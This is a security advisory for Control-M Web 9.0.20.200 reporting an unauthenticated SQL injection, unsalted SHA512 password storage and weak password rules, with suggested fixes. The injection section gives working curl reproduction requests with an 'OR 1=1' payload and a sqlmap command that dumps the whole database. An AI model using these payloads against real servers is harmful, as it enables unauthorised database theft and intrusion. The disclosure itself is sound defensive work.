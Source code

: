 ```yaml
---
title: Control-M Web Security Advisory
---
```


All tests were performed on version 9.0.20.200 of Control-M Web.

By combining 1 with (2,3) or 1 with 4, an unauthenticated attacker can take over the Control-M web console and execute unrestricted code on all agents.

Combining the last three vulnerabilites permits an authenticated low-privileged user to escalate privileges to admin.


CRITICAL: Unauthenticated SQL injection in Reports
==================================================
The ```getUsersForSharedReport``` endpoint is vulnerable to an unauthenticated sql injection. The ```report-id``` parameter is not sanitized and a SQL query is constructed by concatenation using this parameter.

Reproducing:
```
curl -k 'https://xx.xx.xx.xx/RF-Server/report/getUsersForSharedReport?report-id=1' -H 'user-id: abc' && echo
[]

curl -k "https://xx.xx.xx.xx/RF-Server/report/getUsersForSharedReport?report-id=1'%20OR%201=1%20--%20-" -H 'user-id: abc' && echo
["ALL"]
```

Automation with sqlmap:
```
sqlmap -u "https://xx.xx.xx.xx/RF-Server/report/getUsersForSharedReport?report-id=1" --header 'user-id: abc' --dump-all
```

Suggested fixes:

* Require authentication for all endpoints. Have a CI/CD procedure in place to detect unauthenticated endpoints.
* Sanitize all parameters using strong typing, a whitelist or a regular expression.
* Convert all queries to parameterized queries and enforce this in CI/CD.


MEDIUM: Use of a deprecated hashing algorithm
=============================================
For local authentication, passwords are stored hashed using SHA512. This algorithm is not suitable for password storage as it incorporates no salt and no work factor.

Local passwords are stored in the ```generalauthorizations``` table.

Suggested fix: use bcrypt or equivalent.


MEDIUM: Weak password requirements
==================================
The minimum length of a local password is 6. There are no other requirements. This enables attackers that have compromised the database to quickly crack passwords offline.
